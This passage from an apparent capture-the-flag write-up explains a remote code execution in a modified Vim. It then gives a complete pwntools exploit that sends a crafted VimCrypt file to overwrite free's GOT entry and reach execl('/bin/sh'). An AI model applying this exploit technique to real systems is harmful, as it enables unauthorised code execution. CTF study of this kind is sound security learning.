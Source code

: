 We found that while doing `free(ps->buffer)`, rax will store the value of `ps->buffer`, which means this gadget allow us to call `execl("/bin/sh","sh","-c",ps->buffer)` eventually, and that's how we achieve remote code execution.

final exploit:
```python
#!/usr/bin/env python
from pwn import *
import subprocess as sp
from ctypes import *
import hashlib
import string
import itertools

# flag{Th4t_st0ry_I_to1d_you_abOut_thE_boy_poet_aNd_th3_girl_poet,_Do_y0u_r3member_thAt?_THAT_WASN'T_TRUE._IT_WAS_SOMETHING_I_JUST_MADE_UP._Isn't_that_the_funniest_thing_you_have_heard?}

sss = string.letters + string.digits

y = remote("111.186.63.13",10001)

def pow():
    y.recvuntil("sha256(XXXX+")
    suffix = y.recvuntil(")")[:-1:]
    y.recvuntil("== ")
    answer = y.recvline().strip()
    log.info("suffix: "+suffix)
    log.info("hash: "+answer)
    for c in itertools.product(sss, repeat=4):
        XXXX = ''.join(c)
        temp = XXXX + suffix
        h = hashlib.sha256(temp).hexdigest()
        if h == answer:
            log.success("XXXX: {}".format(XXXX))
            y.sendlineafter("XXXX:", XXXX)
            break

pow()

e = ELF('./vim')

_size = 0x16 + 8 + 1 + 8 + 8
size = 0x35
IV = 0xffffffff ^ 0x61

f = "VimCrypt~04!"
f += p32(IV)[::-1]

p = 'y' * 0x15
p += p64( e.got['free'] - 9 )[::-1]
p += '\x1b'
p += p64( 0x4C915d )[::-1]
p += 'cat flag'.ljust( 9 , '\0' )[::-1]
f += p.ljust( size , '\x00' )

y.sendlineafter( 'OK' , str( len( f ) ) )
y.send( f )

y.interactive()
```
